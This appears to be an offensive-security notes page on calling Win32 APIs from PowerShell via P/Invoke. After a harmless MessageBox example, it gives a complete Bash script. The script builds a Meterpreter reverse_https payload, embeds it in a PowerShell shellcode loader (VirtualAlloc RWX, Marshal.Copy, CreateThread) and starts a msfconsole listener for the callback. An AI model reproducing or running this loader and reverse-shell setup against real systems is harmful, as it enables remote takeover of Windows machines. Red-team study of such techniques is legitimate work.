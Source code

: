 ```yaml
---
title: Executing Win32 APIs in PowerShell
tags:
  - breach
  - operations
  - win32api
  - api
  - powershell
  - execution
  - shellcode
---
```


We can't execute **Win32API** methods directly from PowerShell. What are **Win32API** methods? We
discuss them in
[[phishing-in-microsoft-office#Calling Win32API|Phishing in Microsoft Office - Calling Win32API]].
These are methods usually implemented in `.dll`s like `kernel32.dll` that you can usually find in
`C:\Windows\System32`.

We can, however, compile and execute C# (CSharp) from PowerShell, and invoke these methods using the
.NET Framework. Using
[Platform Invoke (P/Invoke)](https://learn.microsoft.com/en-us/dotnet/standard/native-interop/pinvoke),
we can directly reference **Win32API** methods implemented in our target `.dll`s.

For effective translation of C# types to C/C++ types for parameters defined in these **Win32API**
methods, we can reference helpful documentation provided at [pinvoke.net](https://www.pinvoke.net/).
The following PowerShell script demonstrates how to invoke **user32.MessageBox** from `user32.dll`
using **P/Invoke** and **C#**:

```powershell
$User32 = @"
using System;
using System.Runtime.InteropServices;

public class User32 {
    [DllImport("user32.dll", CharSet=CharSet.Auto)]
    public static extern int MessageBox(IntPtr hWnd, String text,
        String caption, int options);
}
"@

Add-Type $User32

[User32]::MessageBox(0, "This is an alert", "MyBox", 0)
```

### Executing shellcode in PowerShell

The following example uses the interoperability features described above to define references to the
`VirtualAlloc` and `CreateThread` methods from `kernel32.dll` . This **Bash** script will generate a
**Meterpreter** `windows/x64/meterpreter/reverse_https` payload directed to callback to a provided
`LHOST` and `LPORT`for the next stage of the **Meterpreter** payload.

The PowerShell shellcode buffer for the **Meterpreter** payload will be placed into a **PowerShell**
script that will call `VirtualAlloc` to allocate an `RWX` memory segment within the current process.
The script will proceed to call `System.Runtime.InteropServices.Marshal` to copy the shellcode from
managed memory to unmanaged memory - copying our shellcode to the newly created buffer from the
previous `VirtualAlloc` call. Finally, we call `CreateThread` providing an address to our shellcode
payload memory segment to gain shellcode execution.

After generating our PowerShell payload, we kick off an `msfconsole` session to listen for our
**Meterpreter** payload callback:

```bash
#!/bin/bash

set -ex -o pipefail

MSFPAYLOAD="windows/x64/meterpreter/reverse_https"
MSFCONSOLE=$(which msfconsole)
MSFVENOM=$(which msfvenom)


msfvenom() {
    PAYLOAD=$($MSFVENOM \
        -p $MSFPAYLOAD \
        LHOST=$LHOST \
        LPORT=$LPORT \
        EXITFUNC=thread \
        -f ps1 2>/dev/null)
}


generate_powershell() {
    tee payload.ps1 << EOF
\$Kernel32 = @"
using System;
using System.Runtime.InteropServices;

public class Kernel32 {
    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
    [DllImport("kernel32", CharSet=CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
    [DllImport("kernel32.dll", SetLastError=true)]
    public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
}
"@

Add-Type \$Kernel32

$PAYLOAD

\$size = \$buf.Length

[IntPtr]\$addr = [Kernel32]::VirtualAlloc(0, \$size, 0x3000, 0x40)

[System.Runtime.InteropServices.Marshal]::Copy(\$buf, 0, \$addr, \$size)

\$thandle=[Kernel32]::CreateThread(0, 0, \$addr, 0, 0, 0)

[Kernel32]::WaitForSingleObject(\$thandle, [uint32]"0xFFFFFFFF")
EOF
}

listen() {
    $MSFCONSOLE \
        -q \
        -x "use multi/handler; \
            set payload $MSFPAYLOAD; \
            set LHOST $LHOST; \
            set LPORT $LPORT; \
            exploit"
}


LHOST=$1
LPORT=$2

msfvenom
generate_powershell
listen
```
